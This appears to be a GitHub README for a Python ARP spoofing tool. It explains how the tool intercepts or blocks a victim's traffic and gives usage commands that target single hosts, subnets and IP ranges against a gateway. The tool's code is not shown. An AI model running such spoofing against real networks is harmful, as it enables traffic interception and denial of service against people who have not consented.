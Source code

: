 ### ARPer
ARPer is a tool made in python that can be used to launch ARP spoofing attacks on a network. It allows the attacker to send fake ARP messages to the network, associating their own MAC address with the IP address of a legitimate host. This allows the attacker to intercept and modify traffic intended for the legitimate host. By continuously sending fake ARP messages to the target, the attacker can effectively stop the target from accessing the Internet by preventing them from communicating with the gateway.

### Usage
First you need to install the requirements:
```
pip install -r requirements.txt
```
Then you can run the script as follows:
```
python arper.py -i <interface> -t <targets> -g <gateway>

# examples:
python arper.py -i eth0 -t 192.168.1.199 -g 192.168.1.1

# you can also use subnet format for multiple targets or ip range: 
python arper.py -i eth0 -t 192.168.1.0/24 -g 192.168.1.1

# or
python arper.py -i eth0 -t 192.168.1.100-200 -g 192.168.1.1

# or
python arper.py -i eth0 -t 192.168.1.100-200,192.168.1.250 -g 192.168.1.1

# you can also, exclude ips:
python arper.py -i eth0 -t 192.168.1.100-200 -g 192.168.1.1 -e 192.168.1.150
```
You may need to run it as root since it uses raw sockets and needs permissions to do so.

